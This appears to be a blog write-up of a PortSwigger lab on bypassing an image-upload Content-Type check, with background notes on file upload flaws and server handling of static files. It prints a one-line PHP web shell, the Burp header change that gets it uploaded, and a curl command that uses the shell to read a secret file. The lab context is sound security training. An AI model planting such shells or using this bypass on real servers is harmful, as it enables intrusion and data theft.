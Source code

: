 +++
title = '1f2 - Web shell upload via Content-Type restriction bypass \[Portswigger Lab]'
date = 2024-07-6
draft = false
+++


This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So upon logging in my account, I can see the avatar upload field.

{{< figure src="/.gitbook/assets/Pasted image 20240719144326.png" alt="" >}}

Testing this functionality by uploading an empty `test.txt` file gives me an error

`Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

The next thing I tried was to upload the same file but modify the HTTP request using burpsuite and change `Content-Type: Text/Plain` to `Content-Type: image/jpeg`. This bypassed a defense mechanism and as a result it let me upload a text file

{{< figure src="/.gitbook/assets/Pasted image 20240719145007.png" alt="" >}}

Now it's time to upload a web shell `mal.php` with the following contents:

`<?php echo system($_GET['command']); ?>`

{{< figure src="/.gitbook/assets/Pasted image 20240719145330.png" alt="" >}}

Now, since I know that this `mal.php` is uploaded in `/files/avatars/mal.php`, I can call it using CURL.

And we got the secret

```
curl -X GET "https://0a2200b703596e51800635e70004004c.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

7nJBS****************************7nJBS****************************
```

remember that calls form curl like this repeats the response twice, so I had to remove the double of this output.

The secret contents: `7nJB****************************`

***

**Impact of FUVs generally depend on two key factors**:

* Which aspect of the file the website fails to validate properly, whether its the size, type, contents...
* what restrictions are imposed once file is uploaded

In the worst case scenario, the file is not validated at all and the server configuration allows certain types to run as code - potentially giving an attacker web shell and full access to a webserver.

In case filename isn't validated properly, an attacker might just replace original file with a malicious one.

Failing to validate file size might also enable an attacker to perform a DoS.

_**How Web servers handle static file requests?**_

Generally, static files on a website can be mapped 1:1 with a filesystem hierarchy.

Nowadays modern applications are dynamic and hence complex. Path of a request may not necessarily represent a filesystem entirely. Nowadays, web servers still deal with static requests for some static files like stylesheets, images etc.

The process for handling such files is historically largely the same. - The server parses the path in the request to identify the file extension. Then uses this information to determine the filetype by comparing it to preconfigured mapping between extensions and MIME types.

* if the file is non-executable like HTML file, it may just send the file in the HTTP response
* if the file is executable like PHP or PYTHON and the server is configured to execute these files, it will assign variables based on the headers and parameters in the HTTP request before executing it. The result may be passed on to HTTP response after.
* if the file is executable, but the server is not configured to run them, it will generally respond with an error or in some cases, just send back the plain text representation of the code to the client. such misconfigurations may lead to code and sensitive data leakage. The `Content-Type` response header may provide clues as to what kind of file the server thinks it has served.

As a precaution, servers generally only run scripts whose filetypes have been explicitly defined to execute. Otherwise they may return an error message or plaintext of source code. In such cases, it might only be possible to leak the source but won't be able to deploy a webshell.

This kind of configuration will have a strict policy for directories where user can upload files than other locations on the filesystem that are assumed to be out of reach from users. If you can find a directory where user-uploaded files are not supposed to be, the code might execute.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.

